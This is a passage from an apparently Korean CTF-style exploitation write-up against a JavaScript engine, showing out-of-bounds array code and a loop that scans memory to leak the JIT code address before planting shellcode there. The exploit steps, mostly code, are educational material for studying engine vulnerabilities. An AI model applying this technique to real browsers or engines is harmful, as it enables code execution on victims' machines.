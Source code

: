 ```javascript

function get_shell()
{
	print('hi')
}
	
a = [1, 2]
b = [3, 4]

for (var i = 0; i < 3; i++)
	a.pop()

next_array_addr = dtoi(a[5]);

for (var i = 0; i < 12; i++)
	get_shell();

Math.atan()
```

math_atan에 브포를 걸고 실행해보면 위에서 설정을 해놨기 때문에 jitcode 주소가 출력이 될텐데, 해당 부분의 값을 잠깐 살펴보면 다음과 같다.

![7](https://user-images.githubusercontent.com/43925259/67089054-b057f200-f1e1-11e9-913e-8ca3b917f0a6.PNG)

이제 이 부분에다가 셸 코드를 박을건데, 그러면 이 jitcode의 주소를 가지고 있는 곳의 위치를 구해야 하기 때문에 search 명령을 사용했다.

![8](https://user-images.githubusercontent.com/43925259/67089056-b221b580-f1e1-11e9-8048-d47480c8dbcf.PNG)

그럼 총 3개의 값이 나온다. 앞의 2개의 값은 OOB Array 이전에 있는 값이라서 접근 조차도 못하고 세 번째 값이 우리가 원하는 값이다. 3번째 주소에 저장된 값을 보면 다음과 같다.

![9](https://user-images.githubusercontent.com/43925259/67089057-b352e280-f1e1-11e9-845a-2b7704622fef.PNG)

여기서 첫 번째 주소가 우리가 원하는 jitcode의 주소이다. 이 주소를 leak해야 하는데, 위 사진에서 다른 주소는 다 aslr의 영향을 받아서 변하지만 `0x0000015000000161`는 변하지 않는 값이었다. 또한 **search로 검색해도 하나 밖에 나오지 않는 유일한 값**이다. 그러니 위 값을 가지고 index를 계속 증가시켜가면서 찾은 뒤에 인덱스를 2 빼주면 jitcode의 주소를 leak할 수 있다. 작성한 코드는 다음과 같다.

```javascript
jitcode_offset = 0;
for (var i = 0; i < 0x10000; i++)
{
	if (dtoi(a[i]) == parseInt("0x0000015000000161", 16))
	{
		jitcode_offset = i - 2;
		break
	}
}

print ('JIT Addr: ' + hex(dtoi(a[jitcode_offset])))
```

출력된 값은 우리가 소스를 수정해서 출력된 JIT 주소와 동일하다.


